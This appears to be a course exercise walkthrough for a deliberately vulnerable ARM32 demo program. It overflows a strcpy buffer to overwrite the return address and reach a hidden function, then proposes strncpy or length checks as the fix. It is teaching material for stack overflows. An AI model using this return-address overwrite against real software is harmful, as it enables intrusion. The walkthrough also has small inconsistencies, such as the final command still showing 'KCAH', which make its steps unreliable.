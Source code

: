 # Problem 2 Walkthroug

## Part A

First determine what architecture you want to run the program on. If it's not an ARM32 machine you should use the run\_qemu.sh script. This runs the compiled program in qemu-user mode. Otherwise just run the demo program.

We start by running our program with some string as a first argument.

```sh
  user@host$ ./demo AAAA
  Hello to the string consumer 3000!
  You provided me a string! Yum!
```

It's a good start, but it's not what we want. We want to crash the program. So we start putting in a really long string.

```sh
  user@host$ ./demo AAAAAAAAAAAAAAAAAAAA
  Hello to the string consumer 3000!
  You provided me a string! Yum!
  ------------------------ERROR-------------------------
  Goodbye cruel world! I was a young program. And I have died too soon!
  You can avenge my death! I received Signal Number 11
  Looks like I was near address 0x41414140 at my untimely demise.
  Aborted (core dumped)
```

Great. We crashed the program and if we look closely our input is in the program counter. Now the problem asks us to find the minimum length so we run the program with progressively fewer characters until it doesn't crash. It doesn't crash when our length is 15 so our minimum length to crash is 16 characters.

```sh
  user@host$ ./demo AAAAAAAAAAAAAAAA
  Hello to the string consumer 3000!
  You provided me a string! Yum!
  ------------------------ERROR-------------------------
  Goodbye cruel world! I was a young program. And I have died too soon!
  You can avenge my death! I received Signal Number 4
  Looks like I was near address 0xff6bef44 at my untimely demise.
  Aborted (core dumped)
```

## Part B

So we know that our string impacts our return address, that we want to jump to 0x4b434148, and we need a string of length 15 in front of our string.

At this you can experiment like above and see how As turn into 0x41 in the following example and see how their characters are being parsed into the return address.

```sh
  user@host$ ./demo AAAAAAAAAAAAAAAAAAAA
  Hello to the string consumer 3000!
  You provided me a string! Yum!
  ------------------------ERROR-------------------------
  Goodbye cruel world! I was a young program. And I have died too soon!
  You can avenge my death! I received Signal Number 11
  Looks like I was near address 0x41414140 at my untimely demise.
  Aborted (core dumped)
```

In order to change 0x4b434148 into our string we change the bytes into character and see that the characters correspond to the string 'KCAH'. If we append this to our string with a precursor of 15 bytes we see:

```sh
  user@host$ ./demo AAAAAAAAAAAAAAAKCAH
  Hello to the string consumer 3000!
  You provided me a string! Yum!
  ------------------------ERROR-------------------------
  Goodbye cruel world! I was a young program. And I have died too soon!
  You can avenge my death! I received Signal Number 11
  Looks like I was near address 0x484142 at my untimely demise.
  Aborted (core dumped)
```

It's not quite right. We notice that this address has a 0 as its first octet and realize we should add another character to the start (16 bytes).

```sh
  user@host$ ./demo AAAAAAAAAAAAAAAAKCAH
  Hello to the string consumer 3000!
  You provided me a string! Yum!
  ------------------------ERROR-------------------------
  Goodbye cruel world! I was a young program. And I have died too soon!
  You can avenge my death! I received Signal Number 11
  Looks like I was near address 0x4841434a at my untimely demise.
  Aborted (core dumped)
```

Looking at this result we see that we now have a full address, but the values are wrong. They're backwards! We change our string at the end from 'KCAH' to 'HACK' and try again.

```sh
  user@host$ ./demo AAAAAAAAAAAAAAAAKCAH
  Hello to the string consumer 3000!
  You provided me a string! Yum!
    _____
   /     \
  | () () |
   \  ^  /
    |||||
    |||||

  Oh no! There's haxx0rs in the mainframe!

```

And we won. We made it to the correct function. Celebrate your success and write down the correct result.

## Part C

Part C is a bit more open ended than the previous problems. We need to think about how the buffer is of a limited size and how our strcpy does not check the output or end after a certain point.

Valid solutions to this could be checking the length of the string or otherwise using a more protected function like strncpy which takes the length of the buffer.
